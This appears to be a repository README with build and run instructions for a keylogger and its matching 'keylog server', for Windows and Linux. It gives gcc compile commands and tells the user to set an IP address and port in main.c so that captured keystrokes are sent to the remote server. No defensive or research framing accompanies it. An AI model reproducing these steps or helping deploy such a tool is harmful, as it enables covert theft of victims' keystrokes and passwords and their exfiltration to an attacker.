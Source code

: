 # keylogger Usage

### To run Keylog server:
- .\bin\server_keylogger.exe \<IP> \<Port>
- for linux : ./bin/linux_executables/server_keylogger_linux


### To run keylogger:
- First open main.c and change the IP address and Port number to your preference and compile the code as follows
    
    - gcc -o ../bin/keylogger.exe .\src\main.c .\src\keylogger.c .\src\send_keylog.c  -lws2_32
    - Then go to your bin folder and run keylogger.exe as follows:
        .\keylogger.exe

- For linux: First open main.c and change the IP address and Port number to your preference and compile the code as follows
    
    - gcc -o ./bin/linux_executables/keylogger_linux ./src/for_linux/main.c  ./src/for_linux/keylogger.c  ./src/for_linux/send_keylog.c -lpthread
    - Then go to your bin folder and run keylogger as follows:
        ./linux_executables/keylogger

